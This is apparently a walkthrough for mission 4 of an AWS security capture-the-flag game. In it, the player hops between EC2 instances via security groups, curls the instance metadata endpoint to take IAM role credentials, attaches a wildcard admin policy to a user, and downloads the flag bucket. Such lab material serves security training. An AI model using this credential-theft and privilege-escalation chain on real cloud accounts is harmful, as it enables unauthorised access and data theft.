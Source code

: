 # Mission 4 cheat sheet


This mission lets users manipulate new EC2 instances in order to become more familiar with security groups, and has a small IAM component.


  * Given: AWS key, AWS secret key, ssh key
  * Variables: $id


$ `aws configure --profile juan`

Set up the credentials for use. Region is always us-east-1 and json output is recommended.


$ `aws --profile juan ec2 describe-instances`

List the existing instances, since it is not possible to list existing s3 buckets. Note the public and private ip addresses as $public_ip and $private_ip. Note the keypair used as $keypair. You may also want to take note of the AMI used, as $ami_id, and the subnet as  $subnet_id.

Visit the public address in browser if you like.


$ `aws --profile juan ec2 describe-security-groups`

Two security groups are available: "filtered", and "allow". The "allow" group will not block you, so you may use it. Note its id as $sg_id.

NB: The programmer would like to highlight the fact that the user's IP is still used, despite the loss of realism, in order to ensure the security of their account. :)


$ `aws --profile juan ec2 run-instances --image-id $ami_id --instance-type t2.micro --subnet-id $subnet_id --security-group-id $sg-id --key-name AWS-secgame-mission4-keypair-Evilcorp-Evilkeypair-$id --associate-public-ip-address`

Start a new instances using the "allow" security group, and parameters allowing it to connect to the other instance. You may also create a new keypair yourself. Using "t2.micro" as type serves to ensure you remain in free tier. You need to associate a public ip adddress to ensure you can connect using SSH.


$ `ssh -i ssh_key.pem ec2-user@<new instance public ip>`

Connect into the machine. You may also forward the key into it as well if you want.


$ `ssh -i ssh_key.pem ec2-user@$instance_private_ip`

Connect into the filtered machine from an allowed ip.


## Running commands from the instance

$ `aws iam list-users`

Use the instance's credentials to execute commands.


## Alternative: Get the credentials and load them on your own shell

$ `curl 169.254.169.254/latest/meta-data/iam/security-credentials/AWS-secgame-mission4-role-ec2-$id` 

This allows you to get the IAM credentials and write them to your local ~/.aws/credentials file under a named profile.

$ `aws configure --profile mission4-ec2`

Write the access key and secret access key. Add then the security token to your credentials file.

 credentials file

 ---

 [mission4-ec2]
aws_access_key = ASIAXXXXXXXXXXXXX
aws_secret_access_key = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
aws_session_token = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX...XXXXXXXXXXXXX==


## Using the IAM role

$ `aws iam list-users`

List the users of the account. Find the UserName of user juan that you used before. It will be referred to as $juan_name.


$ `vim admin_policy.json`

Write an administrator policy (example follows) to a local .json file.

Example:
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```


$  `aws iam put-user-policy --user-name $juan_name --policy-name admin --policy-document file://admin.json`

Since the instance may put user policies, update the user policy of user juan with the admin policy.


$ `aws --profile juan s3 ls; aws --profile juan s3 sync s3://secgame-mission4-final-s3-$id ./bucket-data`

Download the data in the final bucket.


$ `cat on_buddha.txt`

You win! Decoding the flag is optional.


## Remember

**Delete anything you created before attempting to destroy the mission, especially the new instance! You can, of course, use the console or the CLI for it with your admin profile.**